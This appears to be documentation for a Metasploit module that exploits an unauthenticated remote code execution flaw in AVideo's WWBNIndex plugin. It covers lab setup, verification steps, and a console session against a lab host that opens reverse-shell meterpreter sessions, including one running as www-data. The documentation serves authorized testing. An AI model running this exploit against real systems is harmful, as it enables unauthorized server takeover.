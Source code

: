 ## Vulnerable Application

This Metasploit module exploits an unauthenticated Remote Code Execution vulnerability in the AVideo platform,
specifically within the WWBNIndex plugin.
The vulnerability exists due to improper input validation in the `submitIndex.php` file, where the `systemRootPath` parameter
is directly passed to a `require()` PHP function without proper sanitization.
Attackers can exploit this by leveraging the PHP filter chaining technique
to execute arbitrary PHP code on the server.
The vulnerability is present in versions from 12.4 up to 14.2.

To set up a vulnerable environment for testing, follow the installation steps provided in the AVideo documentation for running with Docker:
<https://github.com/WWBN/AVideo/wiki/Running-AVideo-with-Docker>.
Ensure AVideo version installed is between 12.4 and 14.2 and the WWBIndex plugin is installed.
This can be done by verifying `/var/www/html/AVideo/plugin/WWBNIndex` exists.

## Verification Steps

1. Start `msfconsole` in your Metasploit framework.
2. Use the module: `use exploit/multi/http/avideo_wwbnindex_unauth_rce`.
3. Set `RHOSTS` to the target's address where the AVideo platform is installed.
4. Set `TARGETURI` to the base path of the AVideo installation if it is not at the root directory (default is `/`).
5. Optionally, configure other options such as `SSL` and `RPORT` if the target environment requires it.
6. Execute the exploit using the `run` or `exploit` command.
7. If the target is vulnerable, the module will execute the specified payload, granting access according to the payload's capabilities.

## Options

No options

## Scenarios

### Successful Exploitation against AVideo Platform with WWBNIndex plugin version 12.9

**Setup**:

- Target: AVideo platform with WWBNIndex plugin version 12.9 installed in a Docker container.
- Attacker: Metasploit Framework.

**Example**:

```
msf6 > search avideo

Matching Modules
================

   #  Name                                            Disclosure Date  Rank       Check  Description
   -  ----                                            ---------------  ----       -----  -----------
   0  exploit/multi/http/avideo_wwbnindex_unauth_rce  2024-04-04       excellent  Yes    AVideo WWBNIndex Plugin Unauthenticated RCE
   1    \_ target: Automatic                          .                .          .      .
   2    \_ target: PHP In-Memory                      .                .          .      .
   3    \_ target: Unix In-Memory                     .                .          .      .
   4    \_ target: Windows In-Memory                  .                .          .      .


Interact with a module by name or index. For example info 4, use 4 or use exploit/multi/http/avideo_wwbnindex_unauth_rce
After interacting with a module you can manually set a TARGET with set TARGET 'Windows In-Memory'

msf6 > use 3
[*] Additionally setting TARGET => Unix In-Memory
[*] Using configured payload cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/avideo_wwbnindex_unauth_rce) > options

Module options (exploit/multi/http/avideo_wwbnindex_unauth_rce):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    443              yes       The target port (TCP)
   SSL      true             no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      nhjkrZakk        no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  /tmp             yes       Remote writable dir to store payload; cannot contain spaces
   LHOST                                yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   2   Unix In-Memory



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/avideo_wwbnindex_unauth_rce) > set rhosts 192.168.100.20
rhosts => 192.168.100.20
msf6 exploit(multi/http/avideo_wwbnindex_unauth_rce) > set lhost eth0
lhost => 192.168.100.10
msf6 exploit(multi/http/avideo_wwbnindex_unauth_rce) > set lport 1337
lport => 1337
msf6 exploit(multi/http/avideo_wwbnindex_unauth_rce) > set fetch_srvport 5000
fetch_srvport => 5000
msf6 exploit(multi/http/avideo_wwbnindex_unauth_rce) > exploit

[*] Started reverse TCP handler on 192.168.100.10:1337
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Detected vulnerable AVideo version: 12.9
[*] Sending stage (3045380 bytes) to 192.168.100.20
[*] Meterpreter session 1 opened (192.168.100.10:1337 -> 192.168.100.20:52936) at 2024-04-04 23:08:05 +0200

meterpreter > sysinfo
Computer     : 192.168.100.20
OS           : Ubuntu 20.04 (Linux 5.4.0-169-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > exit
[*] Shutting down session: 1

[*] 192.168.100.20 - Meterpreter session 1 closed.  Reason: Died
msf6 exploit(multi/http/avideo_wwbnindex_unauth_rce) > use 2
[*] Additionally setting TARGET => PHP In-Memory
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(multi/http/avideo_wwbnindex_unauth_rce) > exploit

[*] Started reverse TCP handler on 192.168.100.10:1337
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Detected vulnerable AVideo version: 12.9
[*] Sending stage (39927 bytes) to 192.168.100.20
[*] Meterpreter session 2 opened (192.168.100.10:1337 -> 192.168.100.20:36258) at 2024-04-04 23:08:44 +0200

meterpreter > getuid
Server username: www-data
```
